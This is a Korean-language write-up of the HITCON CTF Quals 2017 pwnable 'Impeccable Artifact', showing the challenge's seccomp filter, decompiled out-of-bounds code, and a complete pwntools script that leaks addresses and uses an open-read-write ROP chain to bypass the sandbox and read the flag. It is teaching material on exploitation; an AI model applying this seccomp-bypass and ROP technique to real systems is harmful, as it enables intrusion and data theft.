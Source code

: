 ```yaml
---
layout: post
title: HITCON CTF Quals 2017 - Impeccable Artifact
category: writeup
---
```


Linux ELF pwnable challenge.

> 完美無瑕 ~Impeccable Artifact~
> Overwhelmingly consummate protection

제목은 우리말로 "완전무결" 정도 되겠다. PIE가 걸린 x64 ELF 바이너리와 libc.so 바이너리를 주었다.

### 1. Sandbox

프로그램이 실행되면 우선 아래와 같은 seccomp 시스템 콜 필터가 걸린다.

<!--more-->

```
0000: A = arch
0001: if (A != ARCH_X86_64) goto 0018
0002: A = args[2]
0003: X = A
0004: A = sys_number
0005: if (A == read) goto 0019
0006: if (A == write) goto 0019
0007: if (A == fstat) goto 0019
0008: if (A == lseek) goto 0019
0009: if (A == mmap) goto 0011
0010: if (A != mprotect) goto 0014
0011: A = X # args[2]
0012: A &= 0x1
0013: if (A == 1) goto 0018 else goto 0019
0014: if (A == X) goto 0019
0015: if (A == brk) goto 0019
0016: if (A == exit) goto 0019
0017: if (A == exit_group) goto 0019
0018: return KILL
0019: return ALLOW
```

read, write, fstat, lseek, brk, exit, exit\_group은 완전히 허용되며, mmap과 mprotect는 권한이 1(PROT\_READ)여야 한다. 나머지 시스템 콜의 경우 시스콜 번호(`sys_number`)와 세 번째(`args[2]`) 인자 값이 같아야 된다.

이 때문에 execve는 실행이 불가능해진다. 세 번째 인자인 envp가 execve의 시스콜 번호인 59가 되면 segmentation fault를 내고 죽을 것이기 때문이다. 하지만 open 시스템 콜의 경우 두 번째 인자인 flags에 0(`O_RDONLY`)를 주면 세 번째 인자가 무시되기 때문에 플래그 파일을 여는 용도로 사용할 수 있다.

### 2. Exploit

대놓고 out-of-bounds access가 되는 코드다. 따라서 스택의 임의의 위치에 데이터를 읽고 쓸 수 있다.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int cmd; // [rsp+8h] [rbp-658h]@2
  int idx; // [rsp+Ch] [rbp-654h]@2
  __int64 arr[201]; // [rsp+10h] [rbp-650h]@1
  __int64 v7; // [rsp+658h] [rbp-8h]@1

  v7 = *MK_FP(__FS__, 40LL);
  setup_sandbox();
  memset(arr, 0, 1600uLL);
  while ( 1 )
  {
    show_menu();
    idx = 0;
    _isoc99_scanf("%d", &cmd);
    if ( cmd != 1 && cmd != 2 )
      break;
    puts("Idx?");
    _isoc99_scanf("%d", &idx);
    if ( cmd == 1 )
    {
      printf("Here it is: %lld\n", arr[idx]);
    }
    else
    {
      puts("Give me your number:");
      _isoc99_scanf("%lld", &arr[idx]);
    }
  }
  return 0LL;
}
```

디버깅을 해 보면 스택 상에 여러 데이터가 남아있는데, 이로부터 바이너리 주소와 libc 주소 등을 알 수 있다. 그 다음은 ROP로 open-read-write 체인을 짜서 flag파일을 읽으면 된다. open 시스템 콜을 호출할 때 세 번째 인자로 open의 시스템 콜 번호인 2를 넣어줘야 한 다는 점만 주의하면 크게 어려울 것이 없는 문제였다.

```py
from pwn import *
import sys

p = remote('52.192.178.153', 31337)

mask = (1 << 64) - 1
def get(idx):
    p.readuntil('Choice?\n')
    p.send('1\n')
    p.readuntil('Idx?\n')
    p.send(str(idx) + '\n')
    p.readuntil("Here it is: ")
    return int(p.readline()) & mask

def put(idx, val):
    p.readuntil('Choice?\n')
    p.send('2\n')
    p.readuntil('Idx?\n')
    p.send(str(idx) + '\n')
    p.readuntil('Give me your number:\n')
    p.send(str(val & mask) + '\n')

def quit():
    p.readuntil('Choice?\n')
    p.send('3\n')

ofs_lsm_ret = 0x203F1  # Return address of main, which is somewhere in __libc_start_main.
ofs_open64 = 0xf8660
ofs_write = 0xF88E0
ofs_read = 0xF8880

bin_base = get(202) - 0xbb0
libc_base = get(203) - ofs_lsm_ret

poprdi = bin_base + 0xc13
poprsi = libc_base + 0x1fcbd
poprdx = libc_base + 0x1b92
scratchpad = libc_base + 0x3C6A08

chain = [
    poprdi, 0,
    poprsi, scratchpad,
    poprdx, 20,
    libc_base + ofs_read,  # Read file name from stdin.

    poprdi, scratchpad,
    poprsi, 0,
    poprdx, 2,
    libc_base + ofs_open64, # Open the file.

    poprdi, 3,
    poprsi, scratchpad,
    poprdx, 100,
    libc_base + ofs_read,  # Read the file (fd=3).

    poprdi, 1,
    poprsi, scratchpad,
    poprdx, 100,
    libc_base + ofs_write, # Write the content to stdout.
]

for idx, val in enumerate(chain):
    put(203 + idx, val)
quit()

p.send('flag'.ljust(100, '\0'))
p.interactive()
```

`hitcon{why_libseccomp_cheated_me_Q_Q}`.

